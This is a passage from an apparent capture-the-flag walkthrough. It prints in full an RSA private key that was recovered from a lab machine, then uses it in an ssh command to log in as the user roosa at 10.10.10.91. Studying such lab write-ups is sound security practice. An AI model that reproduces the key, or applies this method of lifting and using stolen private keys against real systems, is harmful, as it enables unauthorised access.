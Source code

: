 ![Private SSH key](screenshots/10_private_ssh_key.PNG)

There is the key.  Here it is cleaned up:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```

Let's try to SSH with that key:
```bash
ssh -i id_rsa roosa@10.10.10.91
```
![SSH successful](screenshots/11_ssh_as_roosa.PNG)
